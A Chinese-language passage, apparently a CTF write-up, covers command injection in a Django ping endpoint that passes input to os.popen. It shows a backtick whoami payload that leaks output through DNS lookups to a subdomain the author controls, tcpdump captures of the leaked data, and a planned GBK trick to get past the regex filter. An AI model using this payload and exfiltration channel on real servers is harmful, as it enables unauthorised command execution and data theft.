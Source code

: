 ```python
   if not re.match('^[a-zA-Z0-9\-\./]+$', data):
       return HttpResponse("Invalid URL")
   return HttpResponse(os.popen("ping -c 1 \"%s\"" % data).read())
▶ Local vars
/opt/api/dnsapi/utils.py in escape
   r = ''
   for i in range(len(data)):
       c = data[i]
       if c in ('\\', '\'', '"', '$', '`'):
           r = r + '\\' + c
       else:
           r = r + c
   return r.encode('gbk')
...
```

这里用了dns的api。顿时就想到毕设的一个操作（控制指定一个域名的解析服务器实现DNS隧道）。

本地测试：

```
ping -c 1 "`whoami`.xiaoxi.pegasusx.top"
```

命令会转化为

```
ping -c 1 "xiaoxi.xiaoxi.pegasusx.top"
```

而我们在域名解析上配置，所有xxx.xiaoxi.pegasusx.top都到我们指定的一个服务器进行解析。具体配置参考这篇[博文](https://mo-xiaoxi.github.io/2016/11/30/DNStunnel/)

> PS:后期发现这是一个比较通用的思路，就是DNSlog来获取数据。在SQL注入和命令执行时，尤其是没有回显时有神奇的作用。

可以在我们的服务器上看到如下数据：

```bash
➜  ~ tcpdump udp port 53 -X |grep xiaoxi.pegasusx.top
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on venet0, link-type LINUX_SLL (Linux cooked), capture size 65535 bytes
03:40:43.847328 IP duhem.df.lth.se.45156 > ilovefyy.top.domain: 41249+ NULL? vaaaaaaaaaaaaa.xiaoxi.pegasusx.top. (52)
03:41:17.167469 IP 60.215.138.244.50302 > ilovefyy.top.domain: 33379% [1au] A? moxiaoxi.xiaoxi.pegasusx.top. (57)
03:41:17.967575 IP 60.215.138.244.44039 > ilovefyy.top.domain: 24630% [1au] A? moxiaoxi.xiaoxi.pegasusx.top. (57)
```

可以看到whoami的结果被发送过来了。这是因为ping一个域名时，系统会自动解析那个域名，从而将那个域名信息转发到我们的服务器上。而我们可以把想要的信息放在域名的前缀上发送到我们的DNS解析服务器。

接下来的思路就是通过gbk绕过正则，插入一个`.

```python
 data = escape(data)
...
   if not re.match('^[a-zA-Z0-9\-\./]+$', data):
       return HttpResponse("Invalid URL")
   return HttpResponse(os.popen("ping -c 1 \"%s\"" % data).read())
   
```
